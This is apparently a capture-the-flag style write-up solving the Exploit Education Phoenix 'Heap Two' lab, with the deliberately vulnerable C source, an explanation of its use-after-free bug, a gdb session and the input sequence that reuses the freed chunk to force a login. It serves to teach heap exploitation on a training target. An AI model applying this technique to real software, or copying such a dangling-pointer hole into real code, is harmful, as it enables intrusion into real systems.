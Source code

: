 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Heap Two"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
  char line[128];

  printf("%s\n", BANNER);

  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

The is a classic use-after-free (**UAF**) exploit, if we enter **"auth AAAA"** the code allocates memory and stores it in **auth** then copies the name **AAAA** to **auth->name**, so far so good.

To login we need **auth** to point to a memory address and **auth->auth** not to be zero, we can't overflow **name** since there is a length checking **strlen**.

The bug here is that **reset** frees **auth** allocated memory but **auth** still points to that memory location which could contain anything, **auth** here is called a **dangling pointer**.

The way **strdup** function works is it uses **malloc** under the hood to allocate memory for a new string, and the way **malloc** works (in very little details) is that it first looks if there is a previously-freed chunk of  memory, and that chunk is big enough to service the request, it will use that freed chunk for the new allocation.

So if we allocated memory for **auth**, freed that memory then entered **service** the **strdup** function will use the previously freed memory address of **auth**, and now we can write anything to **auth->auth** (we are writing to **service** but **auth** points to that address already).

The goal here is only to change **auth->auth** to any thing so we will just use some junk.

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/i486/heap-two
Reading symbols from /opt/phoenix/i486/heap-two...(no debugging symbols found)...done.

gef➤  disassemble main
Dump of assembler code for function main:
.....
   0x080487e4 <+367>:	mov    eax,ds:0x8049adc
   0x080487e9 <+372>:	mov    eax,DWORD PTR [eax+0x20]
   0x080487ec <+375>:	test   eax,eax
.....

gef➤  b *0x080487e9
Breakpoint 1 at 0x80487e9

gef➤  r
Starting program: /opt/phoenix/i486/heap-two 

Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 

Breakpoint 1, 0x080487e9 in main ()

gef➤  x/xw $eax+0x20
0x8049b10:	0x42424242		# value of auth->auth

gef➤  c
Continuing.
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]
```

# Solution:

```
$ /opt/phoenix/i486/heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 
you have logged in already!
```